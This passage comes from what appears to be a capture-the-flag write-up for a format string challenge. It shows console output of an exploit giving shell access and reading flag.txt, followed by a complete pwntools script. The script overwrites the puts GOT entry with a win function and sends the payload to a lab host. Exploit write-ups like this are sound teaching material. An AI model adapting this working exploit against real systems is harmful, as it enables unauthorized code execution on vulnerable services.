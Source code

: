 ```console
$ python3 exploit.py

Thanks!
...
$ id
uid=1000 gid=1000 groups=1000
$ wc -c flag.txt
37 flag.txt
```

### Using pwntools for Payload Generation

Alternatively, instead of manually generating our payload for the format string vulnerability, we could use the `fmtstr_payload` function from `pwntools` to create it for us.

All we need to do is provide the offset of our input on the stack, the address where we want to write, and the value we want to write, as shown below:

```python
#!/usr/bin/env python3

from pwn import *

context.update(os="linux", arch="amd64", log_level = "error")
context.binary = binary = ELF("./materials-TryPwnMeOne/NotSpecified/notspecified", checksec=False)

r = remote("10.10.74.205", 9009)
payload = fmtstr_payload(6, {binary.got["puts"] : binary.symbols["win"]})
r.sendline(payload)
r.interactive()
r.close()
```

<style>
.center img {        
  display:block;
  margin-left:auto;
  margin-right:auto;
}
.wrap pre{
    white-space: pre-wrap;
}

</style>